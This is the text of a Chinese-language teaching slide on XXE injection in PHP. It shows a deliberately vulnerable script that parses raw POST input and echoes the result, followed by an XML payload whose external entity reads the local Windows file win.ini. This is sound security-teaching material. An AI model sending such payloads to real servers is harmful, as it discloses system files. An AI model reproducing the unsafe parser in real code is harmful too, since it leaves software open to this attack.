

XML注入回显 输出函数
在PHP中可以使用 print_r() 、echo 输出想要输出的内容。
给出完整存在XXE漏洞代码：
<?php
$xml=file_get_contents("php://input");
$data = simplexml_load_string($xml) ;
echo "<pre>" ;
print_r($data) ;//注释掉该语句即为无回显的情况
?>
读取本地文件Payload:
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini" >]>
<root>
<name>&xxe;</name>
</root>